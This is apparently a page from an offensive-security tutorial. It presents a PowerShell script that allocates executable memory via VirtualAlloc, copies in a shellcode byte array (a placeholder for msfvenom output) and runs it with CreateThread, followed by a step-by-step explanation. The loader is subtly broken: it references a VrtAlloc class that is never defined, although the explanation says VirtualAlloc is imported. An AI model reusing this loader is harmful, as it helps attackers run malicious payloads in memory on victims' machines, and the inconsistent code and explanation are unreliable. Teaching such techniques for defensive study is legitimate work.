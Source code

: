 ```powershell
$WaitFor= @"
using System;
using System.Runtime.InteropServices;

public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
}
"@

Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
}
"@
Add-Type $CrtThread   

[Byte[]] $buf = SHELLCODE_PLACEHOLDER
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

#### Explantion of the code

The script starts by defining a few C# classes. These classes use the `DllImport` attribute to load specific functions from the `kernel32` DLL, which is part of the Windows API.
* `VirtualAlloc`: This function allocates memory in the process's address space. It's commonly used in scenarios like this to prepare memory for storing and executing shellcode.
* `CreateThread`: This function creates a new thread in the process. The thread will execute the shellcode that has been loaded into memory.
* `WaitForSingleObject`: This function pauses execution until a specific thread finishes its task. In this case, it ensures that the shellcode has completed execution.

These classes are then added to PowerShell using the `Add-Type` command, allowing PowerShell to use these functions.

#### Storing the shellcode in a Byte Array

Next, the script stores the shellcode in the `$buf` variable, a byte array. In the example above, `SHELLCODE_PLACEHOLDER` is just there to show where to insert the actual shellcode earlier generated through `msfvenom`. Usually, we'd replace it with the real shellcode, represented as a series of hexadecimal values. These hex values are the instructions that will be executed when the shellcode runs.
